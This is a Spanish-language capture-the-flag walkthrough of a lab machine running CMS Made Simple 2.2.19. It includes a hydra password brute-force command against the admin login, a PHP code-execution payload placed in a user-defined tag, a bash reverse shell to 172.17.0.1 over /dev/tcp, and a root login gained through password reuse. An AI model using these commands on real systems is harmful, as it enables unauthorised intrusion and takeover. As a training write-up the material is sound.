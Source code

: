 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
> 
![image](https://github.com/user-attachments/assets/e690e84e-f33d-4b2a-9c3c-53e1b49b5e6c)

buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:

![image](https://github.com/user-attachments/assets/77cc8607-d8e3-4ae9-b77f-5e8c4a8833a5)

Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![image](https://github.com/user-attachments/assets/6b2308bf-3725-4455-b601-cbfa0091862f)

que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![image](https://github.com/user-attachments/assets/7d840e91-62f4-4ccd-ae4e-0d7931073828)

Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![image](https://github.com/user-attachments/assets/6d2f3c8e-5ace-4a65-a55d-efcfe4078650)


y nos da la contraseña "chocolate" para admin
probamos en el panel de login

![image](https://github.com/user-attachments/assets/386e9cb0-5a71-4b1d-812d-dc6a0972ad2f)

ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![image](https://github.com/user-attachments/assets/002a7c04-f680-4f37-b1f4-3b5d3a345efe)


en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:

![image](https://github.com/user-attachments/assets/cb6c9261-d0ae-4ffb-b8ba-2aeeda6aa241)


probamos si la vulnerabilidad que encontramos esta funcionando:

![image](https://github.com/user-attachments/assets/2a61ceba-4310-4ae6-9f0d-09858b14c83a)

nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![image](https://github.com/user-attachments/assets/dd901b2f-9972-4bb1-bc5c-1c9021d462c7)


entonces la lanzamos con el terminal en escucha y entramos.

![image](https://github.com/user-attachments/assets/e5f24e05-b124-4411-b877-6f4f132bdf00)

dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


